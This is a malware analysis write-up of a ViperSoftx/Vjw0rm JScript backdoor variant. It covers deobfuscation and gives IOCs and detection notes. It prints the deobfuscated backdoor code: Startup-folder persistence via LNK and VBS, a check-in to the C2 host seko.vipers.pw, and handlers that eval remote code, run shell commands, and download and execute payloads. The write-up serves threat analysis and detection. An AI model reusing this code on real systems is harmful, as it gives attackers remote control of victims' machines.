 # ViperSoftx Vjw0rm Variant


## Situation:

While watching [Any.Run](https://any.run) for interesting scripts to deobfuscate, I noted that its traffic did appear to be like other variants of `vjw0rm` however wasn't sure of what else it could do.

## Metadata:

- Sample: `3236312b9dc691dd8b9214f08ff01e5d`

## Analysis

The obfuscation techniques are pretty standard, the first stage deobfuscates base64 data then performs mathematic operations on it (I don't give a crap how they work I just let it do the heavy lifting for me), interestingly the base64 string is reversed.

After this then the obfuscation consistently used `eval` which is easily replaced with `console.log` and ran using `nodejs` to dump the next stages.

It took approximatly twenty different times dumping the obfuscated code before I was able to access the deobfuscated code.


The script starts with setting up some global variables the script needs to run then makes a call to `ModinySks()`, this function is responsible to establishing persistence.

```js
var shell = new ActiveXObject('WScript.Shell');
var fstym = new ActiveXObject('Scripting.FileSystemObject');
var spl = '|V|';
var Ch = '\\';
var verss = 'viperSoftx_1.0.7.6';
var VN = verss + '_' + getSerial();
var Startup = getEnv('appdata') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var StartupAll = getEnv('allusersprofile') + '\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\';
var Temp = getEnv('temp') + '\\';
var Desktop = getEnv('userProfile') + '\\Desktop\\';
var AppData = getEnv('appdata') + '\\';
var fxDmE4zu = WScript.ScriptFullName;
var wn = WScript.ScriptName;
var UDex;
var DeLay = 20;
var ps = 'powershell.exe';
var batf = AppData + wn + '.bat';
var vbsf = AppData + wn + '.vbs';
var lnkf = Startup + wn + '.lnk';
ModinySks();
```

We can see that `powershell.exe` is used to copy, the backdoor script to the `%AppData%` folder then establishing persistence in the startup folder as a `LNK` file.

```js
function ModinySks() {
	try {
		shell.Run(ps + " Copy-Item -Path '" + fxDmE4zu + "' -Destination '" + AppData + wn + "'", 0, false);
		var newpato = 'start wscript.exe /E:jscript """' + AppData + wn + '"""';
		CreateFile(vbsf, 'Set WshShell = WScript.CreateObject("""WScript.Shell""")' + '\n' + 'obj = WshShell.Run("""wscript.exe /E:jscript """"""' + AppData + wn + '""""""""", 0)' + '\n' + 'set WshShell = Nothing');
		createShort(lnkf, vbsf);
	} catch (err) {
	}
}
```

After persistence is achieved, it will checkin to the C2 server `seko[.]vipers[.]pw:8880`, send fingerprinting data in the `User-Agent`.

Interestingly, this variant adds the `X-Header` HTTP header with the variant prefix / version as well.

```js
function SendHttp(R) {
	var X = new ActiveXObject('Microsoft.XMLHTTP');
	X.open('put', 'http://seko.vipers.pw:8880/connect', false);
	var useragent = getUserAgent();
	X.SetRequestHeader('User-Agent:', useragent);
	X.SetRequestHeader('X-Header:', VN);
	X.send(R);
	return X.responsetext;
}
```

The C2 server response body will be parsed by use of the delimiter `|V|` much like previous variants.

```js
var send = SendHttp();
var Command = send.split(spl);
var order = Command[0];
var order_data = Command[1];
```

### C2 Command (Ex):

Code:
```js
if (order === 'Ex') {
	eval(order_data);
}
```
Command from C2: `Ex|V|<jscript_code>`

### C2 Command (Cmd):

Code:
```js
if (order === 'Cmd') {
	shell.Run(order_data, 0, false);
}
```

Command from C2: `Cmd|V|whoami`

### C2 Command (DwnlExe):

Code:
```js
if (order === 'DwnlExe') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	WScript.Sleep(DeLay * 1000);
	shell.Run("cmd.exe start '" + path + "'", 0, false);
}
```

Command from C2: `DwnlExe|V|<url>|V|<path>`

### C2 Command (DwnlOnly):

Code:
```js
if (order === 'DwnlOnly') {
	varpathdwn = '';
	var path = Command[3];
	var exe = Command[4];
	if (path == 'startup') {
		pathdwn = Startup + Command[2];
	} else if (path == 'temp') {
		pathdwn = Temp + Command[2];
	} else if (path == 'desktop') {
		pathdwn = Desktop + Command[2];
	} else {
		pathdwn = path + Command[2];
	}
	if (pathdwn != '') {
		if (exe == 'yes') {
			DownFile(Command[1], pathdwn, true);
			WScript.Sleep(DeLay * 1000);
			shell.Run(ps + " start '" + pathdwn + "'", 0, false);
		} else {
			DownFile(Command[1], pathdwn, false);
		}
	}
}
```

### C2 Command (SelfRemove):

Code:
```js
if (order === 'SelfRemove') {
	UnMonkSek(true);
}
```

### C2 Comamnd (UpdateS):

```js
if (order === 'UpdateS') {
	var path = Temp + Command[2];
	DownFile(Command[1], path, true);
	if (fstym.fileexists(path)) {
		UnMonkSek(false);
		WScript.Sleep(DeLay * 1000);
		shell.Run(ps + " start wscript.exe /E:jscript '" + path + "'", 0, false);
		WScript.Quit(1);
	}
}
```

Command from C2: `UpdateS|V|<url>|V|<tmp_file_name>`

### C2 Checkin Traffic:

```http
PUT /connect HTTP/1.1
Accept: */*
Accept-Language: en-us
User-Agent: viperSoftx_1.0.7.6_C4BA3647\USER-PC\Admin\Microsoft Windows 7 Professional [32]\\YES\undefined\
x-header: viperSoftx_1.0.7.6_C4BA3647
Accept-Encoding: gzip, deflate
Host: seko.vipers.pw:8880
Content-Length: 0
Connection: Keep-Alive
Cache-Control: no-cache
```

If you look closely the difference are the use of the `PUT` HTTP method and the use of the `x-header`.

This is easy enough to create detection for.

## IOCS:

```txt
3236312b9dc691dd8b9214f08ff01e5d
seko.vipers.pw
```

## References:
- [Deobfuscated Samples](/samples/2020-02-10-vipersoftx.zip)
- [Any.Run](https://app.any.run/tasks/e97fabaa-96ca-4377-b0ee-2344d1c11291/)
- [VirusTotal](https://www.virustotal.com/gui/file/ad5e9d005b764ba80b93c31bec1814ee43ac13143ca67d795a05ae7dbe9cf72f/detection)

